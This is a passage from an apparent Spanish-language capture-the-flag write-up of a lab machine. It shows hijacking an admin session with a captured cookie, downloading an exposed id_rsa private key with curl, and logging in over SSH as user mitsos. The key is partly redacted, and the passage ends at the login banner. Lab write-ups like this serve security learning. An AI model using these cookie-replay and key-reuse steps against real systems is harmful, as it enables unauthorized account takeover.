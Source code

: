 Se puede ver que estas 2 cookies son del usuario **admin**

Copiemos una y vamos a reemplazarla en el navegador para ver si funciona: 

![image](https://user-images.githubusercontent.com/67548295/132827379-a11d3c23-ba16-4a21-ba08-dfd428c745f4.png)

Le damos a guardar y refrescamos y...

![image](https://user-images.githubusercontent.com/67548295/132827632-0a250400-bff9-4a2b-be2c-537876e90e9c.png)

¡Estamos _loggeados_ como **admin**!

Como vemos, ha cambiado todo el dashboard, lo primero que me llama la atención es ese pequeño [hipervínculo](https://es.ccm.net/contents/239-hipervinculos){:target="\_blank"}{:rel="noopener nofollow"} con nombre `My Key`:

![image](https://user-images.githubusercontent.com/67548295/132828118-5ebd8dc6-4c94-492a-ad7a-d4ba07d45d89.png)

Accedo a él y me encuentro con una sorpresa:

![image](https://user-images.githubusercontent.com/67548295/132828311-684f0459-58f8-478e-b310-22a1cd81f7dc.png)

¡Una clave **id_rsa**!, pero claro, con qué usuario te preguntarás.

Bien, si somos atentos, en la url pone algo:

![image](https://user-images.githubusercontent.com/67548295/132828510-cafc5fe9-5e34-427f-bb77-5e2fa65daeab.png)

Buenísima, ahí esta el usuario.

Pruebo a acceder por **SSH** con la clave **id_rsa** y el usuario _Mitsos_ y lo conseguimos:

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $curl -s http://10.10.10.18/mysshkeywithnamemitsos --cookie "auth=FKKX1ZQFwNzZFX7PcbjdZlQOqkpiogzi" | tee id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXBZrUMa9r
upUZr2C4LVqd6+gm4WBDJj/CzAi+g9KxVGNAoT+Exqj0Z2a8Xpz7z42PmvK0Bgkk
3mwB6xmZBr968w9pznUio1GEf9i134x9g190yNa8XXdQ195cX6ysv1tPt/DXaYVq
OOheHpZZNZLTwh+aotEX34DnZLv97sdXZQ7km9qXMf7bqAuMop/ozavqz6ylzUHV
YKFPW3R7UwbEbkXXXXXXXXXXXXXXXXXXd1JV71t4avC5NNqHxUhZilni39jm/EXi
o1AC4ZKC1FqA/4YjQs4HtKv1AxwAFu7IYUeQ6QIDAQABAoIBAA79a7ieUnqcoGRF
gXvfuypBRIrmdFVRs7bGM2mLUiKBe+ATbyyAOHGd06PNDIC//D1Nd4t+XlARcwh8
g+MylLwCz0dwHZTY0WZE5iy2tZAdiB+FTq8twhnsA+1SuJfHxixjxLnr9TH9z2db
sootwlBesRBLHXilwWeNDyxR7cw5TauRBeXIzwG+pW8nBQt62/4ph/jNYabWZtji
jzSgHJIpmTO6OVERffcwK5TW/J5bHAys97OJVEQ7wc3rOVJS4I/PDFcteQKf9Mcb
+JHc6E2VXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXF6jH5WyI7+RdDwsE
9sezm4OF983wsKJoTo+rrODpuI5IJjwopO46C1zbVl3oMXUP5wDHjl+wWeKqeQ2n
ZehfB7UiBEWppiSFVR7b/Tt9vGSWM6Uyi5NWFGk/wghQRw1H4EKdwWECcyNsdts0
6xcZQQKBgQCB1C4QH0t6a7h5aAo/aZwJ+9JUSqsKat0E7ijmz2trYjsZPahPUsnm
+H9wn3Pf5kAt072/4N2LNuDzJeVVYiZUsDwGFDLiCbYyBVXgqtaVdHCfXwhWh1EN
pXoEbtCvgXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXDmA==
-----END RSA PRIVATE KEY-----

┌─[z3r0byte@z3r0byte]─[~]
└──╼ $chmod 600 id_rsa && ssh -i id_rsa mitsos@10.10.10.18
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Thu Sep  9 15:59:15 EEST 2021

  System load: 0.0               Memory usage: 5%   Processes:       194
  Usage of /:  7.6% of 18.58GB   Swap usage:   0%   Users logged in: 0

  Graph this data and manage this system at:
```